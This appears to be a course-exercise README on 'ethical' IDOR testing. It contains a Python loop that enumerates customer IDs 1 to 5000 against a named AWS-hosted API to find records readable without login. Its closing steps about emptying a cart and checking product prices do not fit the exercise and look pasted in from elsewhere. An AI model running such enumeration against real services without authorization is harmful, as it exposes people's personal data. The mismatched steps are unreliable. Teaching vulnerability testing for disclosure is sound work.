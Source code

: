 Ethical IDOR Testing
======================
In this project, you have to find a vulnerability in a small API in a company’s website that can be used to fetch their user’s data without access or authorization. You want to report about this bug to the company and for that, you need to perform a brute force attack on the API to show them how you accessed and fetched the data without even logging in.


<img src= "https://s3-whjr-curriculum-uploads.whjr.online/c729e6cf-39b7-4b42-887c-f1ecf699121f.gif" width = "100%" height = "50%">


Follow the given steps to complete this activity.
1. Perform IDOR testing
   * Open `main.py` file.
   * Check API `http://ec2-3-108-196-161.ap-south-1.compute.amazonaws.com/api/get-customer?id=1 ` for IDOR vulnerability.
   * Create a loop that goes from 1 to 5000.
   * The iterating value on the loop should be integrated in this link -
http://ec2-3-108-196-161.ap-south-1.compute.amazonaws.com/api/get-customer?id=1   replacing the value of ID
   *  Print the URL if we can access data out of it.
    ```
    for i in range(1, 5000):
    URL = f"http://ec2-3-108-196-161.ap-south-1.compute.amazonaws.com/api/get-customer?id={i}"
    r = requests.get(url=URL)
    if r.status_code == 200:
        print(URL)
    ```
    * Empty the cart in the session as now the order is placed.
   
   * Save and run the code to check if the product web page with prices is fixed.

